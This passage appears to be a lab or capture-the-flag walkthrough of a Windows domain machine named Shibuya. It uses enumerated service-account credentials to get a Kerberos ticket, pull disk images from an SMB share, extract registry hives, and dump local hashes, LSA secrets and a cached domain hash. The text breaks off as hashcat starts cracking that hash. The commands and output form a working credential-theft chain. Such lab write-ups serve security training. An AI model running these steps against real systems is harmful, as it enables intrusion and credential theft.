SMB         10.129.234.42   445    AWSJPDC0522      Joe.Mann                      2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lydia.Moore                   2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Frederick.Gordon              2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Glenn.Shepherd                2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rita.Smith                    2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Edward.Parker                 2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Emma.Chamberlain              2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Helen.Harvey                  2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Zoe.Dawson                    2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kimberley.Johnson             2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alexander.Carey               2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Billy.Blackburn               2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Graham.Wallace                2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lydia.Smith                   2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Marian.Stewart                2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dennis.Williams               2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kenneth.Shaw                  2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kim.Smith                     2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Guy.Russell                   2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Amber.Fowler                  2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tracy.O'Sullivan              2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Charlene.Norman               2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Glenn.Bibi                    2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leslie.Holmes                 2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tom.Read                      2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Joe.Carter                    2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lisa.Armstrong                2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Matthew.Owen                  2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Henry.Howe                    2025-02-16 10:23:51 0        
SMB         10.129.234.42   445    AWSJPDC0522      Carol.Clarke                  2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Elizabeth.O'Neill             2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Marc.Davis                    2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leon.Wells                    2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Natasha.Lane                  2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Bernard.Nelson                2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hannah.Price                  2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Patrick.Thomas                2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Abdul.Clarke                  2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hilary.Murphy                 2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hugh.Higgins                  2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rachel.Foster                 2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alison.Jones                  2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Anne.Carr                     2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Victoria.Cook                 2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jane.Taylor                   2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Karen.Carter                  2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ronald.Lloyd                  2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Douglas.Humphreys             2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Louis.Barrett                 2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rhys.Thompson                 2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gareth.Moore                  2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Margaret.O'Connor             2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Natalie.Horton                2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Maurice.Curtis                2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dennis.Bell                   2025-02-16 10:23:52 0        
SMB         10.129.234.42   445    AWSJPDC0522      Antony.Marshall               2025-02-16 10:23:53 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lewis.Edwards                 2025-02-16 10:23:53 0        
SMB         10.129.234.42   445    AWSJPDC0522      Reece.Young                   2025-02-16 10:23:53 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gary.Parry                    2025-02-16 10:23:53 0        
SMB         10.129.234.42   445    AWSJPDC0522      Andrea.Gray                   2025-02-16 10:23:53 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ann.Reed                      2025-02-16 10:23:53 0        
SMB         10.129.234.42   445    AWSJPDC0522      Robin.Kaur                    2025-02-16 10:23:53 0        
SMB         10.129.234.42   445    AWSJPDC0522      Bethany.Briggs                2025-02-16 10:23:53 0        
SMB         10.129.234.42   445    AWSJPDC0522      Donald.Coles                  2025-02-16 10:23:53 0        
SMB         10.129.234.42   445    AWSJPDC0522      Martyn.Turner                 2025-02-16 10:23:53 0        
SMB         10.129.234.42   445    AWSJPDC0522      [*] Enumerated 503 local users: SHIBUYA
SMB         10.129.234.42   445    AWSJPDC0522      [*] Writing 503 local users to username.txt
[ble: elapsed 95.695s (CPU 14.2%)] nxc smb 10.129.234.42 -u "red" -p "red" -k --users-export username.txt 
```

Amazing the description on the password of the user `svc_autojoin`

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u svc_autojoin -p 'K5&A6Dw9d8jrKWhV' -k
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:K5&A6Dw9d8jrKWhV 

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u svc_autojoin -p 'K5&A6Dw9d8jrKWhV' -k --shares
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:K5&A6Dw9d8jrKWhV 
SMB         10.129.234.42   445    AWSJPDC0522      [*] Enumerated shares
SMB         10.129.234.42   445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.129.234.42   445    AWSJPDC0522      -----           -----------     ------
SMB         10.129.234.42   445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.129.234.42   445    AWSJPDC0522      C$                              Default share
SMB         10.129.234.42   445    AWSJPDC0522      images$         READ            
SMB         10.129.234.42   445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.129.234.42   445    AWSJPDC0522      NETLOGON        READ            Logon server share 
SMB         10.129.234.42   445    AWSJPDC0522      SYSVOL          READ            Logon server share 
SMB         10.129.234.42   445    AWSJPDC0522      users           READ         
```
we can generate an TGT check the `images` share to look for any useful data

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u svc_autojoin -p 'K5&A6Dw9d8jrKWhV' -k --generate-tgt /home/penguin/OSCP/Shibuya/svc_autojoin
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:K5&A6Dw9d8jrKWhV 
SMB         10.129.234.42   445    AWSJPDC0522      [+] TGT saved to: /home/penguin/OSCP/Shibuya/svc_autojoin.ccache
SMB         10.129.234.42   445    AWSJPDC0522      [+] Run the following command to use the TGT: export KRB5CCNAME=/home/penguin/OSCP/Shibuya/svc_autojoin.ccache
```

then we cane export the TGT ticket
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ export KRB5CCNAME=/home/penguin/OSCP/Shibuya/svc_autojoin.ccache

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ klist
Ticket cache: FILE:/home/penguin/OSCP/Shibuya/svc_autojoin.ccache
Default principal: svc_autojoin@SHIBUYA.VL

Valid starting     Expires            Service principal
11/18/26 02:36:05  11/18/26 12:36:05  krbtgt/SHIBUYA.VL@SHIBUYA.VL
        renew until 11/19/26 02:36:05
```

then we can download the file in the share to inspect it
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ impacket-smbclient -k -no-pass shibuya.vl/svc_autojoin@AWSJPDC0522.shibuya.vl
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
images$
IPC$
NETLOGON
SYSVOL
users
# use images$
# ls
drw-rw-rw-          0  Wed Feb 19 17:35:20 2025 .
drw-rw-rw-          0  Wed Apr  9 01:09:45 2025 ..
-rw-rw-rw-    8264070  Wed Feb 19 17:35:20 2025 AWSJPWK0222-01.wim
-rw-rw-rw-   50660968  Wed Feb 19 17:35:20 2025 AWSJPWK0222-02.wim
-rw-rw-rw-   32065850  Wed Feb 19 17:35:20 2025 AWSJPWK0222-03.wim
-rw-rw-rw-     365686  Wed Feb 19 17:35:20 2025 vss-meta.cab
# get  A
AWSJPWK0222-01.wim  AWSJPWK0222-02.wim  AWSJPWK0222-03.wim  
# get AWSJPWK0222-01.wim

# 
# get AWSJPWK0222-02.wim

# 
# get AWSJPWK0222-03.wim                                                                                                                                                             
# get vss-meta.cab
```

We can use `wim-tool` inspect  the wim files we downloaded from the smb share  
we can slowly enumerate everthing  first we need to dir the wmi file
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ wimdir AWSJPWK0222-01.wim 
```


Now we can extract the powershell console history
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ wimextract AWSJPWK0222-01.wim 1 /simon.watson/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt --dest-dir=/home/penguin/OSCP/Shibuya
[WARNING] Ignoring Windows NT security descriptors of 1 files
[WARNING] Ignoring object IDs of 1 files
[WARNING] Ignoring DOS names of 1 files
Extracting file data: 1467 bytes of 1467 bytes (100%) done
Done extracting files.
```

nothing specfic other than son-goku ASCII
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ cat ConsoleHost_history.txt
⠀⠀⠀⠀⠀⠀⠀⢀⣀⣤⣴⣶⣶⣶⣶⣆⢰⣦⣤⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⢀⣠⣶⣿⣿⣿⣿⣿⡿⢿⣿⣿⠀⣿⣿⣿⣿⣶⣄⡀⠀⠀⠀⠀⠀
⠀⠀⠀⢀⣴⣿⣿⣿⣿⣿⣿⣿⠃⠀⣿⠿⠛⠀⠻⢿⣿⣿⣿⣿⣿⣦⠀⠀⠀⠀
⠀⠀⢠⣾⣿⣿⣿⣿⣿⣿⣿⡟⠀⠀⠃⠀⠀⠀⢠⣾⣿⣿⣿⣿⣿⣿⣷⡄⠀⠀
⠀⢠⣿⣿⣿⣿⣿⣿⣿⡟⠁⠀⠀⠀⠀⠀⠀⠀⢛⣿⣿⣿⣿⣿⣿⣿⣿⣿⡄⠀
⠀⣾⣿⣿⣿⣿⣿⠿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢹⣿⣿⣿⣿⣿⣿⣿⣿⣷⠀
⢸⣿⣿⣿⣿⣛⡉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⡆⢠⡈⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇
⢸⣿⣿⣿⣿⣟⣉⣁⠀⠀⠀⠀⠀⠀⠀⠀⣻⡇⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇
⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠇⠀⠀⣠⣴⣿⣿⠈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇
⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠙⣿⣿⠀⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
⠀⢿⣿⣿⣿⣿⣿⣿⣿⣿⣷⡀⠀⠀⠀⠀⠈⠁⠀⢨⣿⣿⣿⣿⣿⣿⣿⣿⡿⠀
⠀⠈⢿⣿⣿⣿⣿⣿⠿⢿⣿⡇⠀⠀⠀⠀⠀⣤⠀⢸⣿⣿⣿⣿⣿⣿⣿⡿⠁⠀
⠀⠀⠈⢿⣿⣿⣿⠁⣴⣾⡿⠁⠀⠀⠀⠀⠀⠘⡇⢸⣿⣿⣿⣿⣿⣿⡟⠁⠀⠀
⠀⠀⠀⠀⠙⢿⣿⡀⠿⣿⡧⠀⠀⠀⠀⠀⠀⢠⡄⢸⣿⣿⣿⣿⡿⠋⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠙⠻⢶⣤⣤⣾⠀⠀⠀⠀⢠⣼⡇⢸⣿⡿⠟⠋⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠙⠃⠀⠀⠀⠠⠿⠟⠃⠈⠉⠀⠀⠀⠀⠀⠀⠀⠀
```

doesnt seem to have anything specfic on the file one : (

2nd wmi file have valuable registers `SAM`, `System`  & `Securtiy` we can try to locally  dump to get the hashes
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ wimdir AWSJPWK0222-02.wim 
/
/BBI
/BBI.LOG1
/BBI.LOG2
/BBI{c76cbcfb-afc9-11eb-8234-000d3aa6d50e}.TM.blf
/BBI{c76cbcfb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
/BBI{c76cbcfb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
/BCD-Template
/BCD-Template.LOG
/COMPONENTS
/COMPONENTS.LOG1
/COMPONENTS.LOG2
/COMPONENTS{c76cbcad-afc9-11eb-8234-000d3aa6d50e}.TM.blf
/COMPONENTS{c76cbcad-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
/COMPONENTS{c76cbcad-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
/DEFAULT
/DEFAULT.LOG1
/DEFAULT.LOG2
/DRIVERS
/DRIVERS.LOG1
/DRIVERS.LOG2
/DRIVERS{c76cbcbb-afc9-11eb-8234-000d3aa6d50e}.TM.blf
/DRIVERS{c76cbcbb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
/DRIVERS{c76cbcbb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
/ELAM
/ELAM.LOG1
/ELAM.LOG2
/ELAM{c76cbd09-afc9-11eb-8234-000d3aa6d50e}.TM.blf
/ELAM{c76cbd09-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
/ELAM{c76cbd09-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
/Journal
/netlogon.ftl
/RegBack
/RegBack/DEFAULT
/RegBack/SAM
/RegBack/SECURITY
/RegBack/SOFTWARE
/RegBack/SYSTEM
/SAM
/SAM.LOG1
/SAM.LOG2
/SECURITY
/SECURITY.LOG1
/SECURITY.LOG2
/SOFTWARE
/SOFTWARE.LOG1
/SOFTWARE.LOG2
/SYSTEM
/SYSTEM.LOG1
/SYSTEM.LOG2
/systemprofile
/systemprofile/AppData
/systemprofile/AppData/Local
/systemprofile/AppData/Local/D3DSCache
/systemprofile/AppData/Local/D3DSCache/5adbeda69f8554f3
/systemprofile/AppData/Local/D3DSCache/5adbeda69f8554f3/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.idx
/systemprofile/AppData/Local/D3DSCache/5adbeda69f8554f3/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.lock
/systemprofile/AppData/Local/D3DSCache/5adbeda69f8554f3/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.val
/systemprofile/AppData/Local/D3DSCache/90ccb9cba3f45768
/systemprofile/AppData/Local/D3DSCache/90ccb9cba3f45768/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.idx
/systemprofile/AppData/Local/D3DSCache/90ccb9cba3f45768/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.lock
/systemprofile/AppData/Local/D3DSCache/90ccb9cba3f45768/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.val
/systemprofile/AppData/Local/D3DSCache/c3d1e85f571946f8
/systemprofile/AppData/Local/D3DSCache/c3d1e85f571946f8/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.idx
/systemprofile/AppData/Local/D3DSCache/c3d1e85f571946f8/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.lock
/systemprofile/AppData/Local/D3DSCache/c3d1e85f571946f8/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.val
/systemprofile/AppData/Local/D3DSCache/f9156d1136660b11
/systemprofile/AppData/Local/D3DSCache/f9156d1136660b11/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.idx
/systemprofile/AppData/Local/D3DSCache/f9156d1136660b11/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.lock
/systemprofile/AppData/Local/D3DSCache/f9156d1136660b11/F4EB2D6C-ED2B-4BDD-AD9D-F913287E6768.val
/systemprofile/AppData/Local/Microsoft
/systemprofile/AppData/Local/Microsoft/Credentials
/systemprofile/AppData/Local/Microsoft/Credentials/DFBE70A7E5CC19A398EBF1B96859CE5D
/systemprofile/AppData/Local/Microsoft/Vault
/systemprofile/AppData/Local/Microsoft/Vault/4BF4C442-9B8A-41A0-B380-DD4A704DDB28
/systemprofile/AppData/Local/Microsoft/Vault/4BF4C442-9B8A-41A0-B380-DD4A704DDB28/1D4350A3-330D-4AF9-B3FF-A927A45998AC.vsch
/systemprofile/AppData/Local/Microsoft/Vault/4BF4C442-9B8A-41A0-B380-DD4A704DDB28/Policy.vpol
/systemprofile/AppData/Local/Microsoft/Windows
/systemprofile/AppData/Local/Microsoft/Windows/0
/systemprofile/AppData/Local/Microsoft/Windows/1033
/systemprofile/AppData/Local/Microsoft/Windows/1033/StructuredQuerySchema.bin
/systemprofile/AppData/Local/Microsoft/Windows/Caches
/systemprofile/AppData/Local/Microsoft/Windows/Caches/cversions.3.db
/systemprofile/AppData/Local/Microsoft/Windows/Caches/{17A6A947-B905-4D30-88C9-B63C603DA134}.3.ver0x0000000000000001.db
/systemprofile/AppData/Local/Microsoft/Windows/CloudAPCache
/systemprofile/AppData/Local/Microsoft/Windows/CloudAPCache/MicrosoftAccount
/systemprofile/AppData/Local/Packages
/systemprofile/AppData/Local/Packages/microsoft.windows.fontdrvhost
/systemprofile/AppData/Local/Packages/microsoft.windows.fontdrvhost/AC
/systemprofile/AppData/Local/Packages/microsoft.windows.fontdrvhost/AC/INetCache
/systemprofile/AppData/Local/Packages/microsoft.windows.fontdrvhost/AC/INetCookies
/systemprofile/AppData/Local/Packages/microsoft.windows.fontdrvhost/AC/INetHistory
/systemprofile/AppData/Local/Packages/microsoft.windows.fontdrvhost/AC/Temp
/systemprofile/AppData/LocalLow
/systemprofile/AppData/LocalLow/Microsoft
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/Content
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/Content/57C8EDB95DF3F0AD4EE2DC2B8CFD4157
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/Content/7423F88C7F265F0DEFC08EA88C3BDE45_AA1E8580D4EBC816148CE81268683776
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/Content/77EC63BDA74BD0D0E0426DC8F8008506
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/Content/FB0D848F74F70BB2EAA93746D24D9749
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/MetaData
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/MetaData/57C8EDB95DF3F0AD4EE2DC2B8CFD4157
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/MetaData/7423F88C7F265F0DEFC08EA88C3BDE45_AA1E8580D4EBC816148CE81268683776
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/MetaData/77EC63BDA74BD0D0E0426DC8F8008506
/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/MetaData/FB0D848F74F70BB2EAA93746D24D9749
/systemprofile/AppData/Roaming
/systemprofile/AppData/Roaming/Microsoft
/systemprofile/AppData/Roaming/Microsoft/Internet Explorer
/systemprofile/AppData/Roaming/Microsoft/Internet Explorer/Quick Launch
/systemprofile/AppData/Roaming/Microsoft/Internet Explorer/Quick Launch/Microsoft Edge.lnk
/systemprofile/AppData/Roaming/Microsoft/SystemCertificates
/systemprofile/AppData/Roaming/Microsoft/SystemCertificates/My
/systemprofile/AppData/Roaming/Microsoft/SystemCertificates/My/AppContainerUserCertRead
/systemprofile/AppData/Roaming/Microsoft/SystemCertificates/My/Certificates
/systemprofile/AppData/Roaming/Microsoft/SystemCertificates/My/CRLs
/systemprofile/AppData/Roaming/Microsoft/SystemCertificates/My/CTLs
/systemprofile/AppData/Roaming/Microsoft/Vault
/TxR
/TxR/{c76cbc7e-afc9-11eb-8234-000d3aa6d50e}.TxR.0.regtrans-ms
/TxR/{c76cbc7e-afc9-11eb-8234-000d3aa6d50e}.TxR.1.regtrans-ms
/TxR/{c76cbc7e-afc9-11eb-8234-000d3aa6d50e}.TxR.2.regtrans-ms
/TxR/{c76cbc7e-afc9-11eb-8234-000d3aa6d50e}.TxR.3.regtrans-ms
/TxR/{c76cbc7e-afc9-11eb-8234-000d3aa6d50e}.TxR.4.regtrans-ms
/TxR/{c76cbc7e-afc9-11eb-8234-000d3aa6d50e}.TxR.5.regtrans-ms
/TxR/{c76cbc7e-afc9-11eb-8234-000d3aa6d50e}.TxR.6.regtrans-ms
/TxR/{c76cbc7e-afc9-11eb-8234-000d3aa6d50e}.TxR.blf
/TxR/{c76cbc7f-afc9-11eb-8234-000d3aa6d50e}.TM.blf
/TxR/{c76cbc7f-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
/TxR/{c76cbc7f-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
```

we can know extract each registery hives
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ wimextract AWSJPWK0222-02.wim 1 /SAM --dest-dir=/home/penguin/OSCP/Shibuya/dump
[WARNING] Ignoring Windows NT security descriptors of 1 files
Extracting file data: 64 KiB of 64 KiB (100%) done
Done extracting files.

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ wimextract AWSJPWK0222-02.wim 1 /SYSTEM --dest-dir=/home/penguin/OSCP/Shibuya/dump
[WARNING] Ignoring Windows NT security descriptors of 1 files
Extracting file data: 16 MiB of 16 MiB (100%) done
Done extracting files.

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ wimextract AWSJPWK0222-02.wim 1 /SECURITY --dest-dir=/home/penguin/OSCP/Shibuya/dump
[WARNING] Ignoring Windows NT security descriptors of 1 files
Extracting file data: 32 KiB of 32 KiB (100%) done
Done extracting files.
```

extracting the credentials from locallly dumping
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya/dump]
└─$ impacket-secretsdump -sam SAM  -system SYSTEM  -security SECURITY LOCAL
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x2e971736685fc53bfd5106d471e2f00f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8dcb5ed323d1d09b9653452027e8c013:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9dc1b36c1e31da7926d77ba67c654ae6:::
operator:1000:aad3b435b51404eeaad3b435b51404ee:5d8c3d1a20bd63f60f469f6763ca0d50:::
[*] Dumping cached domain logon information (domain/username:hash)
SHIBUYA.VL/Simon.Watson:$DCC2$10240#Simon.Watson#04b20c71b23baf7a3025f40b3409e325: (2025-02-16 11:17:56+00:00)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:2f006b004e0045004c0045003f0051005800290040004400580060005300520079002600610027002f005c002e002e0053006d0037002200540079005e0044003e004e0056005f00610063003d00270051002e00780075005b0075005c00410056006e004200230066004a0029006f007a002a005700260031005900450064003400240035004b0079004d006f004f002100750035005e0043004e002500430050006e003a00570068005e004e002a0076002a0043005a006c003d00640049002e006d005a002d002d006e0056002000270065007100330062002f00520026006b00690078005b003600670074003900
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:1fe837c138d1089c9a0763239cd3cb42
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb31a4d81f2df440f806871a8b5f53a15de12acc1
dpapi_userkey:0xe14c10978f8ee226cbdbcbee9eac18a28b006d06
[*] NL$KM 
 0000   92 B9 89 EF 84 2F D6 55  73 67 31 8F E0 02 02 66   ...../.Usg1....f
 0010   F9 81 42 68 8C 3B DF 5D  0A E5 BA F2 4A 2C 43 0E   ..Bh.;.]....J,C.
 0020   1C C5 4F 40 1E F5 98 38  2F A4 17 F3 E9 D9 23 E3   ..O@...8/.....#.
 0030   D1 49 FE 06 B3 2C A1 1A  CB 88 E4 1D 79 9D AE 97   .I...,......y...
NL$KM:92b989ef842fd6557367318fe0020266f98142688c3bdf5d0ae5baf24a2c430e1cc54f401ef598382fa417f3e9d923e3d149fe06b32ca11acb88e41d799dae97
[*] Cleaning up... 
```

we can see the cached loggon of the users `Simon.Watson` but its  an DCC2 hash which we can't use to `pth` we can try to crack the hash  
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ echo '$DCC2$10240#Simon.Watson#04b20c71b23baf7a3025f40b3409e325' > simon.dcc2

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ hashcat simon.dcc2 /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2845/5691 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

2100 | Domain Cached Credentials 2 (DCC2), MS Cache 2 | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 514 MB (2064 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework
```

